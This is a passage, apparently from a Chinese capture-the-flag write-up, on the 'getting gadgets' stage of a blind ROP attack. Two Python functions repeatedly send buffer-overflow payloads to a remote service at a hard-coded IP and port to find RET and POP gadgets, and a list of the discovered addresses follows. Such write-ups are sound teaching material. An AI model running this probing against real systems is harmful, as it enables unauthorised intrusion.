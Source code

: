 ### 获取gadget

```python
def testRetRop(base):
    for i in range(base,base+0x1000):
        p,pb,libc = init(r="123.59.196.133:10012",log="info",lg=1)
        p.sendlineafter("hacker, TNT!\n",b"A"*0x10+p64(i)+p64(mainAddr))
        try:
            r = p.recvuntil("hacker, TNT!\n",timeout=0.1)
            if(r == b""):
                p.close()
                continue
            else:
                vLog("RET",i)
            p.close()
            continue
        except:
            p.close()
            continue

def testPopRop(base,c):
    for i in range(base,base+0x1000):
        p,pb,libc = init(r="123.59.196.133:10012",log="info",lg=1)
        p.sendlineafter("hacker, TNT!\n",b"A"*0x10+p64(i)+p64(0)*c+p64(mainAddr))
        try:
            r = p.recvuntil("hacker, TNT!\n",timeout=0.1)
            if(r == b""):
                p.close()
                continue
            else:
                vLog("POP {}".format(c),i)
            p.close()
            continue
        except:
            p.close()
            continue
```

最后得到如下结果

```css
『RET』================>『0X400101』
『RET』================>『0X400106』
『POP 2』================>『0X4000F5』
『POP 2』================>『0X4000FA』
『POP 2』================>『0X4000FB』
『POP 2』================>『0X4000FD』
『POP 2』================>『0X4000FE』
『POP 2』================>『0X400100』
『POP 2』================>『0X400102』
```

### 归纳&测试
